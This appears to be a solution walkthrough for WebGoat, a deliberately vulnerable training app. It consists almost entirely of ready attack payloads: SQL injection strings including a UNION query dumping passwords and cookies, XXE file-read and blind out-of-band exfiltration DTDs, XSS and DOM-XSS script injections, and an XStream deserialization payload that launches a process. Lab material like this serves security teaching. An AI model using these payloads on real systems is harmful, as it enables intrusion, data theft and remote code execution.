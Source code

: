 https://github.com/WebGoat/WebGoat/wiki/(Almost)-Fully-Documented-Solution-(en)


### SQLi ###  

Basic  
Smith - to show it returns smith's records.    
To show exploit; `1=1` can be any true clause:  

```sql  
Smith' or '1'='1   
```

**Bender Login**  
```sql
bender@juice-sh.op' --  
```
```sql 
[2:19 PM]  
101
101 or 1=1
```  
```sql 
Smith' union select userid,user_name, password,cookie,cookie, cookie,userid from user_system_data --
```  

## XXE ##

Simple:  
```xml 
<?xml version="1.0" standalone="yes" ?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><comment><text>&root;</text></comment>  
```

Modern Rest Framework:  
Change content type to: `Content-Type: application/xml` and 
```xml  
<?xml version="1.0" standalone="yes" ?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><user>  <username>&root;</username><password>test</password></user>
```  

Blind SendFile   
```xml
  
      Solution:
     
      Create DTD:
     
      <pre>
          <?xml version="1.0" encoding="UTF-8"?>
          <!ENTITY % file SYSTEM "file:///c:/windows-version.txt">
          <!ENTITY % all "<!ENTITY send SYSTEM 'https://localhost:8080/WebGoat/XXE/ping?text=%file;'>">
           %all;
      </pre>
     
      This will be reduced to:
     
      <pre>
          <!ENTITY send SYSTEM 'https://localhost:8080/WebGoat/XXE/ping?text=[contents_file]'>
      </pre>
     
      Wire it all up in the xml send to the server:
     
      <pre>
       <?xml version="1.0"?>
       <!DOCTYPE root [
       <!ENTITY % remote SYSTEM "https://localhost:8080/WebGoat/plugin_lessons/XXE/test.dtd">
       %remote;
        ]>
       <user>
         <username>test&send;</username>
       </user>
     
      </pre>
     
     
```

### XSS ###
```javascript
<script>alert('my javascript here')</script>4128 3214 0002 1999
``` 

DOM-XSS:  

  Something like 
  `https://localhost:8080/WebGoat/start.mvc#test/testParam=foobar&_someVar=234902384lotslsfjdOf9889080GarbageHere%3Cscript%3Ewebgoat.customjs.phoneHome();%3C%2Fscript%3E
//`   
OR  
`https://localhost:8080/WebGoat/start.mvc#test/testParam=foobar&_someVar=234902384lotslsfjdOf9889080GarbageHere<script>webgoat.customjs.phoneHome();<%2Fscript>`  

### Vuln - Components ###

Jquery page: - it is contrived; but paste that in each box  
```javascript
OK<script>alert("XSS")<\/script>
OK<script>alert("XSS")<\/script>
```
for the deserialization:  got to the link: https://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/  to read about why it works so you can talk to it.
```html  
<sorted-set>  
 <string>foo</string>
 <dynamic-proxy>
   <interface>java.lang.Comparable</interface>
   <handler class="java.beans.EventHandler">
     <target class="java.lang.ProcessBuilder">
       <command>
         <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
       </command>
     </target>
     <action>start</action>
   </handler>
 </dynamic-proxy>
</sorted-set>

```
